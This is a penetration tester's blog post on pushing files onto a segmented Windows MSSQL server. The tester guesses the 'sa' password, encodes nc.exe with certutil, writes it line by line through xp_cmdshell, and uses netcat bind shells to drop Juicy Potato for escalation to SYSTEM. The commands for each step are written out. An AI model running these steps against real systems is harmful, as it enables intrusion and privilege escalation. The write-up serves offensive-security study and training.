 ```yaml
---
layout: post
title: Exfiltrating files using MSSQL
excerpt_separator: <!--more-->
---
```


A scenario where we have to upload files to a server whose MSSQL credentials we know (so we have remote code execution) but the server is in other network. For that, we will transfer the base64-encoded file line by line.

<!--more-->


We have a jump server which allows us to access a Kali machine, used to scan a remote network. 

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image1.png)

From Kali, we see there is a MSSQL server and after guessing the credentials of the user "sa", we have RCE there. 

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image2.png)

However, the firewall rules make it impossible to download files from the jump server, the Kali machine or Internet:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image3.png)

We have a foothold in the netwotk but the firewalls configutaion and network segmentation make it a little difficult to continue. However, privilege escalation in this machine would be easy, as the account running the MSSQL server is a service account with the *SeImpersonatePrivilege* privilege and the OS is Windows Server 2016, being possible to escalate to SYSTEM with the Juicy Potato exploit:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image4.png)

So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:

```bash
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

So the idea is to encode a Windows binary, paste the content with mssqlclient.py and then decode it in the server, hopefully not triggering an antivirus, EDR or similar in the process. 

So first let's encode a Netcat binary:

```bash
certutil -encode nc.exe nc.txt
```

Generating a file like this one:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image5.png)

But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:

```bash
while read p; do echo "xp_cmdshell echo $p >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
```

We get a file ("commands.txt") with one command per line of the encoded payload:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image6.png)

After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:

```bash
xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
```

Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells insted of reverse shells. So in the compromised server the command was:

```bash
xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
```

And from the Kali machine:

```bash
nc -nv 10.100.10.10 8888 < juicypotato.exe
```

With those two binaries and being able to create bind shells, it is fairly easy to become SYSTEM, for example creating a second bind shell. And with that, we would have succeded!
